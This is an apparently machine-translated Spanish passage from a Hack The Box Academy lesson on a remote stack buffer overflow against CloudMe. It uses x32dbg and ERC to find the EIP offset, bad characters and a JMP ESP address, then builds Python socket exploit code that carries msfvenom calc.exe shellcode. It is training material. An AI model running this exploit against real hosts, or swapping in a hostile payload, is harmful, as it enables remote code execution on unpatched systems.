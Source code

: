 Después de difuminar el puerto de escucha, los pasos restantes de identificación y explotación del desbordamiento del búfer deberían ser en gran medida los mismos que los de la explotación del desbordamiento del búfer local. Los principales pasos que seguimos en apartados anteriores fueron:

1. Parámetros de fuzzing
2. Control de EIP
3. Identificar malos personajes
4. Encontrar una instrucción de devolución
5. Saltar a Shellcode

Una vez completada la fuzzing, seguiremos los pasos restantes en esta sección hasta que podamos explotar con éxito la vulnerabilidad de desbordamiento del búfer.

---

## Control de EIP

Comenzaremos creando un patrón único `2000`de longitud en bytes, usando `ERC --pattern c 2000`como lo hicimos anteriormente: ![Patrón remoto](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_pattern.jpg)

Ahora comenzamos a escribir nuestra `eip_offset()`función. Agregaremos nuestra `pattern`variable como con el patrón a continuación `Ascii`en el `Pattern_Create_1.txt`archivo creado en nuestro escritorio, como hicimos con nuestro exploit anterior. Después de eso, para enviar nuestro patrón, podemos usar el mismo código que usamos para difuminar el puerto:

Código: pitón

```python
def eip_offset():
    pattern = bytes("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"
                    ...SNIP...
                    "5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co", "utf-8")

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(pattern)
    s.close()

eip_offset()
```

Una vez que nuestra `eip_offset()`función esté lista, podemos reiniciar nuestro programa `x32dbg`y ejecutar nuestro código, nuestro programa debería fallar y deberíamos ver `EIP`nuestro patrón sobrescrito como `316A4230`: ![Accidente de patrón](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_pattern_crash.jpg)

Ahora podemos usar `ERC --pattern o 1jB0`para calcular el desplazamiento exacto, que se encuentra en `1052`bytes:

![Desplazamiento de patrón](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_pattern_offset.jpg)

Ahora, para asegurarnos de que podemos controlar el valor exacto en `EIP`, usaremos la misma `eip_control()`función de nuestro exploit anterior (mientras cambiamos `offset`), pero usando `socket`para enviar nuestra carga útil en lugar de escribirla en un archivo:

```python
def eip_control():
    offset = 1052
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

eip_control()
```
Una vez más reiniciaremos nuestro programa y ejecutaremos nuestro exploit, y podremos confirmar que controlamos `EIP`ya que sobrescribimos `EIP`con 4 `B`: 
![Control de patrones](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_pattern_control.jpg)
## Identificar malos personajes

Nuestro siguiente paso es identificar si debemos evitar el uso de caracteres incorrectos en nuestra entrada. Podemos comenzar ejecutando `ERC --bytearray`para `x32dbg`crear nuestro `ByteArray_1.bin`archivo. Luego podemos copiar las mismas `bad_chars()`funciones de nuestro exploit anterior y, una vez más, pasar de escribir la carga útil a un archivo a enviarla al puerto:
```python
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        ...SNIP...
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])

    offset = 1052
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

bad_chars()
```

Una vez que reiniciamos nuestro programa `x32dbg`y ejecutamos nuestro exploit, podemos usar `ERC --compare`para comparar los bytes en la `ESP`dirección con el `ByteArray_1.bin`archivo: ![Comparación de bytes](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_bytes_compare.jpg)

Como podemos ver, todos los bytes coinciden entre la memoria y `ByteArray_1.bin`lo que significa que este programa no tiene ningún carácter malo.
## Encontrar una instrucción de devolución

Ahora que tenemos control `EIP`y sabemos qué caracteres malos evitar en nuestra carga útil, necesitamos encontrar una instrucción para ejecutar la carga útil que colocaremos en la pila. Una vez más, dado que este programa no tiene caracteres malos, podemos usar la `ESP`dirección como remitente. (Intente explotar el programa usándolo `ESP`como dirección de remitente).

Sin embargo, preferiremos usar la dirección de una instrucción integrada dentro del programa para asegurarnos de que se ejecutará en cualquier sistema, ya que estas instrucciones serán las mismas en cualquier sistema. Entonces, primero obtendremos una lista de módulos y bibliotecas cargadas por el programa, y ​​solo consideraremos aquellos que tienen `False`todas las protecciones, que son las siguientes:

```cmd-session
------------------------------------------------------------------------------------------------------------------------ 
Process Name: CloudMe Modules total: 79 
------------------------------------------------------------------------------------------------------------------------ 
 Base          | Entry point   | Size      | Rebase   | SafeSEH  | ASLR    | NXCompat | OS DLL  | Version, Name and Path 
------------------------------------------------------------------------------------------------------------------------ 
 0x400000        0x14c0          0x431000    False      False      False      False      False      C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\CloudMe.exe 
 0x61b40000      0x1410          0x5f6000    False      False      False      False      False      5.9.0.0;C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\Qt5Gui.dll 
 0x69900000      0x1410          0x1c1000    False      False      False      False      False      5.9.0.0;C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\Qt5Network.dll 
 0x6d9c0000      0x1410          0x4c000     False      False      False      False      False      5.9.0.0;C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\Qt5Sql.dll 
 0x66e00000      0x1410          0x3d000     False      False      False      False      False      5.9.0.0;C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\Qt5Xml.dll 
 0x6eb40000      0x1410          0x24000     False      False      False      False      False      C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\libgcc_s_dw2-1.dll 
 0x6fe40000      0x1410          0x17e000    False      False      False      False      False      C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\libstdc++-6.dll 
 0x64b40000      0x1410          0x1b000     False      False      False      False      False      1,;WinPthreadGC;C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\libwinpthread-1.dll 
 0x6aa80000      0x1410          0x1b7000    False      False      False      False      False      5.9.0.0;C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\platforms\qwindows.dll 
```
Como podemos ver, existen varias bibliotecas cargadas por el programa sin protección de memoria, incluido el `CloudMe.exe`propio programa. Para buscarlos todos `JMP ESP`, podemos ir a la `CPU`pestaña y hacer clic derecho `Search For>All Modules>Command`, luego seleccionar e ingresar `JMP ESP`, y obtendremos una lista de `JMP ESP`instrucciones en los módulos cargados: 
![Encuentra JMP](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_find_jmp_1.jpg)

Si no hubiéramos encontrado ningún resultado, podríamos buscar el `FFE4`patrón en todo el módulo o en todos los módulos, como se mostró en una sección anterior. También podemos buscar otras instrucciones útiles, como `54C3`. En nuestro caso, después de hacer doble clic en el primer resultado para asegurarnos de que sea así `JMP ESP`, podemos copiar la dirección `0069D2E5`y usarla en nuestro exploit. (Intente buscar otras instrucciones y utilícelas como dirección de devolución).
## Saltar a Shellcode

Nuestro último paso es explotar el programa, por lo que comenzaremos creando nuestro código shell para `msfvenom`abrir `calc.exe`como prueba de explotación exitosa:

```shell-session
lilscott6x9@htb[/htb]$ msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python'

...SNIP...
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
...SNIP...
```

Ahora, para crear nuestra `exploit()`función final, primero agregaremos el resultado anterior y usaremos el mismo `payload`de nuestro exploit anterior (mientras cambiamos `offset`la dirección en `eip`). Finalmente, usaremos el mismo código `bad_chars()`para enviar nuestra carga útil al puerto:

Código: pitón

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python'
    buf = b""
    ...SNIP...
    buf += b"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"

    offset = 1052
    buffer = b"A"*offset
    eip = pack('<L', 0x0069D2E5)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

exploit()
```

Finalmente, podemos ejecutar `CloudMe`(no necesariamente en `x32dbg`) y ejecutar nuestro exploit, deberíamos verlo fallar y debería abrirse una calculadora.

